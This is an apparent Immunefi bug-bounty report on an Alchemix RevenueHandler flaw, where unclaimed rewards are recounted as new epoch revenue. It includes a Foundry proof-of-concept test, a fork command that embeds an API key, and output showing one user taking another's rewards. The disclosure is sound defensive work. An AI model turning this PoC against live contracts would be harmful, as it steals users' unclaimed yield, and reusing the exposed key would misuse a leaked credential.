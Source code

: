 
# `RevenueHandler.checkpoint` counts unclaimed rewards as new rewards causing reduced rewards for users who have not claimed rewards in time

Submitted on Wed May 15 2024 16:47:08 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31263

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

Anyone calls `RevenueHandler.checkpoint` to update the reward for the current epoch. `checkpoint` will calculate the reward based on the reward token balance of the contract. However, these balances include unclaimed rewards. In other words, the unclaimed rewards of some users are included in the rewards of the new epoch.

## Vulnerability Details

Please look at the following code. When `tokenConfig.poolAdapter` is not set, `thisBalance` is directly used as the reward for the new epoch.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L245-L264
                uint256 thisBalance = IERC20(token).balanceOf(address(this));

                // If poolAdapter is set, the revenue token is an alchemic-token
                if (tokenConfig.poolAdapter != address(0)) {
                    // Treasury only receives revenue if the token is an alchemic-token
                    treasuryAmt = (thisBalance * treasuryPct) / BPS;
                    IERC20(token).safeTransfer(treasury, treasuryAmt);

                    // Only melt if there is an alchemic-token to melt to
                    amountReceived = _melt(token);

                    // Update amount of alchemic-token revenue received for this epoch
                    epochRevenues[currentEpoch][tokenConfig.debtToken] += amountReceived;
                } else {
                    // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
                    amountReceived = thisBalance;

                    // Update amount of non-alchemic-token revenue received for this epoch
                    epochRevenues[currentEpoch][token] += amountReceived;
                }
```

**Suggested fix**

Record the balance as a reward instead of using all the balance directly

## Impact Details

Users who claim rewards every epoch will receive more rewards, and other users will receive less rewards

## References

None
        
## Proof of concept
The PoC patch

```diff
diff --git a/src/test/RevenueHandler.t.sol b/src/test/RevenueHandler.t.sol
index 7908478..fd9cbe6 100644
--- a/src/test/RevenueHandler.t.sol
+++ b/src/test/RevenueHandler.t.sol
@@ -644,4 +644,58 @@ contract RevenueHandlerTest is BaseTest {
         revenueHandler.setTreasury(admin);
         assertEq(revenueHandler.treasury(), admin, "treasury should be admin");
     }
+
+    function testYttriumzzPocTemp() external {
+        // 1. init test env
+        deal(bal, address(this), 10000e18);
+        veALCX.checkpoint();
+
+        address user1 = address(0xacc1);
+        address user2 = address(0xacc2);
+        deal(bpt, user1, 1e18);
+        deal(bpt, user2, 1e18);
+
+        // 2. user1 and user2 mint $veToken with 1e18 BPT
+        hevm.startPrank(user1);
+        IERC20(bpt).approve(address(veALCX), 1e18);
+        uint256 tokenId1 = veALCX.createLock(1e18, 0, true);
+        hevm.stopPrank();
+
+        hevm.startPrank(user2);
+        IERC20(bpt).approve(address(veALCX), 1e18);
+        uint256 tokenId2 = veALCX.createLock(1e18, 0, true);
+        hevm.stopPrank();
+
+        vm.warp(block.timestamp + 2 weeks);
+        veALCX.checkpoint();
+
+        // 3. checkpoint 1, user1 claim the rewards
+        IERC20(bal).transfer(address(revenueHandler), 100e18);
+        revenueHandler.checkpoint();
+        vm.warp(block.timestamp + 2 weeks);
+
+        hevm.startPrank(user1);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), user1);
+        hevm.stopPrank();
+
+        // 4. checkpoint 2, user1 and user2 claim the rewards, user2 claim revert
+        IERC20(bal).transfer(address(revenueHandler), 100e18);
+        revenueHandler.checkpoint();
+        vm.warp(block.timestamp + 2 weeks);
+
+        hevm.startPrank(user1);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), user1);
+        hevm.stopPrank();
+
+        hevm.startPrank(user2);
+        uint256 toClaimable = revenueHandler.claimable(tokenId2, bal);
+        hevm.expectRevert("Not enough revenue to claim");
+        revenueHandler.claim(tokenId2, bal, address(0), toClaimable, user2);
+        console.log("claimable of user2 is %s, but revert", toClaimable);
+        hevm.stopPrank();
+
+        console.log("IERC20(bal).balanceOf(user1): %s", IERC20(bal).balanceOf(user1));
+        console.log("IERC20(bal).balanceOf(user2): %s", IERC20(bal).balanceOf(user2));
+        console.log("IERC20(bal).balanceOf(address(revenueHandler)): %s", IERC20(bal).balanceOf(address(revenueHandler)));
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testYttriumzzPocTemp() (gas: 3021917)
Logs:
  claimable of user2 is 125000000000000000000, but revert
  IERC20(bal).balanceOf(user1): 125000000000000000000
  IERC20(bal).balanceOf(user2): 0
  IERC20(bal).balanceOf(address(revenueHandler)): 75000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 35.59ms (19.80ms CPU time)

Ran 1 test suite in 1.81s (35.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

